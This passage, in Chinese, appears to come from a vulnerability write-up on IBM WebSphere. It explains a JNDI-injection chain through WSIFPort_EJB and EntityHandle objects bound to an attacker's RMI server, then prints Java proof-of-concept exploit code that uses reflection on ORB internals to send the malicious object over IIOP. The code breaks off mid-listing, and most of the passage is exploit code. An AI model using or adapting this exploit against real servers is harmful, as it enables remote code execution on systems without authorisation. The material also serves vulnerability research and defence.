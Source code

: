 我们特定构造的 `EntityHandle` 对象绑定我们的RMI地址去进行 `jndi` 注入

[![](https://p0.ssl.qhimg.com/t01efd16260c7c4be8e.png)](https://p0.ssl.qhimg.com/t01efd16260c7c4be8e.png)

赋值给 `WSIFPort_EJB` 即可

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011e4a39a9d0a308a7.png)

然后起个 `RMI` 绑定一下我们构造的 `WSIF Reference`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01dc4534eee351648d.png)

以下为互联网公开的漏洞 POC 利用详细代码：

```
public static void main(String[] args) throws NamingException, NoSuchFieldException, IllegalAccessException, NoSuchMethodException, InvocationTargetException `{`
    System.getProperties().put("com.ibm.CORBA.ConfigURL","file:////sas.client.props");
    System.getProperties().put("com.ibm.SSL.ConfigURL","file://ssl.client.props");
    WSIFPort_EJB wsifPort_ejb = new WSIFPort_EJB(null, null, null);
    Field field = wsifPort_ejb.getClass().getDeclaredField("fieldEjbObject");
    field.setAccessible(true);
    field.set(wsifPort_ejb, new MyEJBObject());
    Properties env = new Properties();
    env.put(Context.PROVIDER_URL, "iiop://127.0.0.1:2809/");
    env.put(Context.INITIAL_CONTEXT_FACTORY, "com.ibm.websphere.naming.WsnInitialContextFactory");
    InitialContext context = new InitialContext(env);
    context.list("");
    Field f_defaultInitCtx = context.getClass().getDeclaredField("defaultInitCtx");
    f_defaultInitCtx.setAccessible(true);
    WsnInitCtx defaultInitCtx = (WsnInitCtx) f_defaultInitCtx.get(context);
    Field f_context = defaultInitCtx.getClass().getDeclaredField("_context");
    f_context.setAccessible(true);
    CNContextImpl _context = (CNContextImpl) f_context.get(defaultInitCtx);
    Field f_corbaNC = _context.getClass().getDeclaredField("_corbaNC");
    f_corbaNC.setAccessible(true);
    _NamingContextStub _corbaNC = (_NamingContextStub) f_corbaNC.get(_context);
    Field f__delegate = ObjectImpl.class.getDeclaredField("__delegate");
    f__delegate.setAccessible(true);
    ClientDelegate clientDelegate = (ClientDelegate) f__delegate.get(_corbaNC);
    Field f_ior = clientDelegate.getClass().getSuperclass().getDeclaredField("ior");
    f_ior.setAccessible(true);
    IOR ior = (IOR) f_ior.get(clientDelegate);
    Field f_orb = clientDelegate.getClass().getSuperclass().getDeclaredField("orb");
    f_orb.setAccessible(true);
    ORB orb = (ORB) f_orb.get(clientDelegate);
    GIOPImpl giop = (GIOPImpl) orb.getServerGIOP();
    Method getConnection = giop.getClass().getDeclaredMethod("getConnection", com.ibm.CORBA.iiop.IOR.class, Profile.class, ClientDelegate.class, String.class);
    getConnection.setAccessible(true);
    Connection connection = (Connection) getConnection.invoke(giop, ior, ior.getProfile(), clientDelegate, "");
    Method setConnectionContexts = connection.getClass().getDeclaredMethod("setConnectionContexts", ArrayList.class);
    setConnectionContexts.setAccessible(true);

    CDROutputStream outputStream = ORB.createCDROutputStream();
    outputStream.putEndian();
    Any any = orb.create_any();
    any.insert_Value(wsifPort_ejb);
    PropagationContext propagationContext = new PropagationContext(
            0,
```